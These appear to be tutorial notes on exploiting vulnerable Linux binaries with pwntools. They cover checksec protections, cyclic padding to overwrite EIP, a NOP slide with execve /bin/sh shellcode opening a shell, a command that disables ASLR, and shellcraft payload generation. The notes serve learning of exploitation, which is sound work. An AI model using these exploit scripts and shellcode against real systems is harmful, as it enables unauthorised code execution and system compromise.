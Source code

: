 checksec file

RELRO stands for Relocation Read-Only -  https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro
Stack canaries are tokens placed after a stack to detect a stack overflow - https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
NX is short for non-executable - https://en.wikipedia.org/wiki/Executable_space_protection
PIE stands for Position Independent Executable - https://access.redhat.com/blogs/766093/posts/1975793

https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/

cyclic.py
```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from pwnlib.commandline.common import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

cyclic 100

pwn_cyclic.py

```
from pwn import *
padding = cyclic(cyclic_find('jaaa'))
eip = p32(0xdeadbeef)
payload = padding + eip
print(payload)
```
python pwn_cyclic.py > attack

./file < attack

gdb file
r - to run
r < attack


pwn_network.py

```
from pwn import *
connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)
print(connect.recvn(34))
```

shellcraft.py

```
from pwn import *
proc = process('./file')
proc.recvline()
padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode
proc.send(payload)
proc.interactive()
```

disable_aslr.sh
```
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

shellcraft.py

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from pwnlib.commandline.common import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

python3 shellcraft.py i386.linux.execve "/bin///sh" "['sh', '-p']" -f a
python3 shellcraft.py i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
